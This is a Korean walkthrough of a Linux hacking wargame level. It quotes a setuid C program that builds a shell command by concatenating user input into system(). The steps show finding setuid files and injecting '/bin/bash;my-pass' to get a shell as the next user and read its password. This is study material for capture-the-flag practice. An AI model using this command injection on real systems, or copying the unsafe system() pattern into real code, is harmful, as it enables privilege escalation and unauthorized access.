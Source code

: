 level 3
===
1. 일단 ls -a명령어를 통해 directory안의 파일을 확인한다. 
2. directory안의 hint파일을 vi hint명령어를 입력해서 확인한다. 그러면 다음과 같이 적혀져 있다. 

다음 코드는 autodig의 소스이다.
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

int main(int argc, char **argv){
    char cmd[100];

    if(argc!=2){
        printf("Auto Digger Version 0.9\n");
        printf("Usage : %s host/n", argv[0]);
        exit(0);
    }

    strcpy(cmd, "dig @");
    strcat(cmd, argv[1]);
    strcat(cmd, "version.bind chaos txt");

    system(cmd);

}
이를 이용하여 level4이 권한을 열어라.

more hints.
-동시에 여러 명령어를 사용하려먼?
-문자열 형태로 명령어를 전달하려면?
3. find / -user level4 -perm -4300 명령어로 검색해서 파일을 찾아보면 autodig파일을 찾을 수 있다. 
4. cd /bin에 접근해서 autodig파일을 실행하면 level4의 password를 알 수 있다. 
5. ./autodig "/bin/bash;my-pass" 명령어를 입력해서 level4의 password를 알아낸다. <두 개의명령어를 동시에 입력하려면, ';'을 사용하면 되고, 문자열 형태로 명령어를 전달하려면 큰따옴표를 사용하여야 한다.>